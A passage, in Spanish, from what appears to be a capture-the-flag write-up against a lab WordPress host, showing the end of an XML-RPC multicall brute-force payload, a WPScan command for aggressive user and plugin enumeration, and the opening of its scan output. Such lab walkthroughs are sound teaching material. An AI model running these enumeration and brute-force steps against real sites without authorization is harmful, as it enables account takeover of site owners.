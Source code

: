 ``` 
                </member>
              </struct>
            </value>
            <!-- Agrega más combinaciones aquí -->
          </data>
        </array>
      </value>
    </param>
  </params>
</methodCall>

```

#### Opción script (Via opcional)

Todo esto puede ser automatizado con bash o python como había especificado antes. (Ejemplo de Mario con Maquina Internal (THM) https://www.youtube.com/watch?v=PnH4uwY0X9U)

#### Opción WPScan (Via usada en este Write-Up)

`WPScan` es una herramienta que se usa para escanear Wordpress en busca de vulnerabilidades, también puede usarse para explotarlas, yo voy a usarla como exploit para el **XML-RPC** ya que hacer un script para el ataque me dió problemas. (WPScan tiene una opción específicamente para hacer bruteforce XML-RPC).
Antes de hacer el ataque, lo recomendable es hacer una enumeración primero, en este caso haré una enumeración de usuarios y plugins agresiva (`-e p --plugins-detection aggressive`) .

- `wpscan --url http://escolares.dl/wordpress -e u,p --plugins-detection aggressive`

```js
# WPScan Output
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://escolares.dl/wordpress/ [172.18.0.2]
[+] Started: Tue Jun 11 15:08:27 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.58 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://escolares.dl/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

```